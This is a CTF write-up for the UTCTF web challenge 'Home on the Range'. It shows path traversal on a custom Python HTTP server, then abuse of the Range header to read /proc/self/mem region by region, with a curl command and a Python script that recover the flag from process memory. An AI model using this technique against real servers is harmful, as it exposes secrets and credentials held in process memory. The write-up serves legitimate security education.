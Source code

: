 # Web

##  Home on the Range 


### Info

       ![](screenshots/1.png)


## solution:

this challenge is one of the best challenges i solved in ctfs because it touched a really interesting concept with educational way ....
there is i think 3 steps to solve the challenge:

### First step: Path Traversal:

so the description said that `I wrote a custom HTTP server to play with obscure HTTP headers.` and trying to request the home page , we will notice that the server is a simple python httpserver `Server: BaseHTTP/0.6 Python/3.12.2`
![](screenshots/2.png)

we can see there is a `hello.html` file actually this file doesn't matter but trying to request it will give us an http header called `Accept-Ranges` you can find [here](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Accept-Ranges) more information about it ,because we will need it later!
![](screenshots/3.png)

now we know it's a simple python httpserver and yes it's vulnerable to path traversal from we can try access to the root dir by just go back `GET /../../ HTTP/1.1 Host: guppy.utctf.live:7884`:
![](screenshots/4.png)

and YES we can see the root dir list , ofc we will try to search for the flag.txt thinking it's a simple challenge!
but wait until you open the `server.py` file XD
it's a looong script ! it's a customized http server like the description says with a custom `Range` HEADER
```bash
import os
from html import escape
from mimetypes import guess_type
import re
from random import randbytes
import signal
import sys
import threading

with open("/setup/flag.txt") as f:
    the_flag = f.read()
os.remove("/setup/flag.txt")

def process_range_request(ranges, content_type, file_len, write_header, write_bytes, write_file_range):
    boundary = randbytes(64).hex()
    for [first, last] in (ranges if ranges != [] else [[None, None]]):
        count = None
        if first is None:
            if last is None:
                first = 0
            else:
                first = file_len - last
                count = last
        elif last is not None:
            count = last - first + 1

        if (count is not None and count < 0) or first < 0:
            return False
            .
            .
            .
```




### Second step: Understand the Code And the Range header:

so we leaked the server code and it's so long but only 3 sections i found importants the first lines:
```
with open("/setup/flag.txt") as f:
    the_flag = f.read()
os.remove("/setup/flag.txt")
```
the lines that explain how the Range header works in the function `def process_range_request(ranges, content_type, file_len, write_header, write_bytes, write_file_range)` 
the last lines:

```
server.serve_forever()
with open("/setup/flag.txt", "w") as f:
    f.write(the_flag)
```
1-just from this thre sections we know there were a file named flag.txt , we read its content to a variable named `the_flag` and we removed it !

2-also we can understand how `Range` work and briefly it's like can split the downloaded data to bytes ranges
with the format Range: bytes=[start-end],[start,end],...... and get  a response for each region 

3-we can clearly say that the flag won't be written in the file again unless the server is down!because of this`server.serve_forever()`

### Third step: The exploit:

After reading the code actually i thought we have to crush the server somehow then perform a Race Condition
to read the /setup/flag.txt before the script delete it but the author of the challenge said:
```
What approaches are invalid?
Trying to crash/shutdown/SIGTERM the server
Performance or race conditions
Brute force / dirbuster
Exploits of the Python interpreter
```

So me And my teammate [0utC4s7](https://cybersecfun.pythonanywhere.com/index.html) searhed a lot about how we can get the file again ! But Wait it's impossible ...... After a while we thought that `the_flag` variable it's not setted for nothing , Here we start searching About how we can Read a variable content in a running proces ! we start by reading the `proc/self/cmdline` to identify the  runnin process and indeed it's `server.py`

![](screenshots/5.png)

then we found out the file `proc/self/maps` that contains memory map information for the process, providing details of the virtual memory address space and their permissions :

![](screenshots/6.png)

And here we Got the idea of reading the Memory to find `the_flag` variable and we have : `/proc/self/mem` our champion because it provides direct access to the memory of a the process , but we didn't celebrate for long time:

![](screenshots/7.png)

Error code explanation: 500 - I/O error ! we tried to read the file in our local machines :

```bash
┌──(mo㉿ElMo)-[~]
└─$ cat /proc/self/mem   
cat: /proc/self/mem: Input/output error
```
same thing ..... there is something wrong here , But Waaait here u can start to link the ideas 

1-we have a file `maps` contain memory map infos with region of the VM with permessions And not all regions are readable ?!!

2-we have `mem` file that contain the content of the memory , BUT `we cant read it simply because we dont have permission to read all regions` 

3- we have `Range` header that can read specific range of bytes 

HERE the brilliant Idea , we can read region by region  in the `mem` file the using `Range Header` and getting the starting and ending addresses of each region  from the `maps` file.
if u didnt understand well what the files do read [here](https://medium.com/@razika28/inside-proc-a-journey-through-linuxs-process-file-system-5362f2414740)

so we can read the mem liks this:(`NB: we have pass the start - end of region to the Range header as decimal`)

![](screenshots/8.png)

let's go ... it worked we can now read the memory , so we keap reading the region that we have permission for 
and we get the flag by searching for the flag format:

![](screenshots/9.png)

we can automate the process 
```bash
curl 'http://guppy.utctf.live:7884/../../proc/self/maps' --path-as-is -s -H 'Range: bytes=0-22770' > memory_ranges.txt 
```
```python
import requests

def hex_to_decimal(hex_str):
    return int(hex_str, 16)

def read_memory_ranges(file_path):
    memory_ranges = []
    with open(file_path, 'r') as file:
        for line in file:
            if line.strip():
                parts = line.split()
                start_hex = parts[0].split('-')[0]
                end_hex = parts[0].split('-')[1]
                start_decimal = hex_to_decimal(start_hex)
                end_decimal = hex_to_decimal(end_hex)
                memory_ranges.append((start_decimal, end_decimal))
    return memory_ranges

def send_requests(memory_ranges):
    for start, end in memory_ranges:
        url = "http://guppy.utctf.live:7884/../../proc/self/mem"
        headers = {'Range': 'bytes={}-{}'}
        headers['Range'] = headers['Range'].format(start, end)
        response = requests.get(url, headers=headers)
        print(f"\nResponse for Range {start}-{end}: {response.status_code}")
        if "utflag" in response.text:
            print("\nFLAG FOUND!!!")
            print(response.text)
            exit()

def main():
    file_path = "./memory_ranges.txt" 
    memory_ranges = read_memory_ranges(file_path)
    send_requests(memory_ranges)

if __name__ == "__main__":
    main()
```



